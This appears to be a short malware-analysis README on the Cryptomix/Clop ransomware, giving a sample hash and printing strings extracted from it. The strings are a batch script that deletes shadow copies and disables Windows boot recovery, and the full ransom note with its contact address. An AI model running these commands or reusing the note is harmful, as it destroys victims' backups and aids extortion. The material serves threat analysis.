 # cryptomix-clop-ransomware

Cryptomix Ransomware Mal Helper

`SHA-256 10f4be34c2e41e6c2d4932ab77f189cf5da659abd028537604eae6435c83516a`
Reference: https://twitter.com/malwrhunterteam/status/1098578106112245760

bytearray(b'@echo off\r\nvssadmin Delete Shadows /all /quiet\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded\r\nvssadmin Delete Shadows /all /quiet\t\t\r\nbcdedit /set {default} recoveryenabled No\r\nbcdedit /set {default} bootstatuspolicy ignoreallfailures\t ')
bytearray(b'!Your networks has been penetrated!\r\nAll files on each host in the network have been encrypted with a strong algorithm!!!\r\nBackups were either encrypted or deleted or backup disks were formatted!!!\r\nShadow copies also removed, so F8 or any other methods may damage encrypted data but not recover!!!\r\nWe exclusively have decryption software for your situation.\r\nNo DECRYPTION software is AVAILABLE in the PUBLIC.\r\n* DO NOT DELETE readme files.\r\n* DO NOT RENAME OR MOVE the encrypted and readme files.\r\n* DO NOT RESET OR SHUTDOWN \xe2\x80\x93 files may be damaged.\r\n!!!THIS MAY LEAD TO THE IMPOSSIBILITY OF RECOVERY OF THE CERTAIN FILES!!!\r\n!!!ALL REPAIR TOOLS ARE USELESS AND CAN DESTROY YOUR FILES IRREVERSIBLY!!!\r\nIf you want to restore your files write to emails. \r\n[CONTACTS ARE AT THE BOTTOM OF THE SHEET] and attach 2 - 3 encrypted files.\r\n[Less than 6 Mb each, non-archived and your files should not contain valuable information\r\n[Databases, backups, large excel sheets, etc.]]!\r\n!!You will receive decrypted samples and our conditions how to get the decoder!!!\r\n\r\n***ATTENTION***\r\n!!!YOUR WARRANTY  -  DECRYPTED SAMPLES!!!\r\nDO NOT TRY TO DECRYPT YOUR DATA USING THIRD PARTY SOFTWARE!!!\r\nWE DON`T NEED YOUR FILES AND YOUR INFORMATION!!!\r\n\r\nContacts E-MAIL: \r\nunlock@eqaltech.su \r\n\r\n***THE FINAL PRICE DEPENDS ON HOW FAST YOU WRITE TO US***\r\n===Nothing personal just business===  Clop^_-')
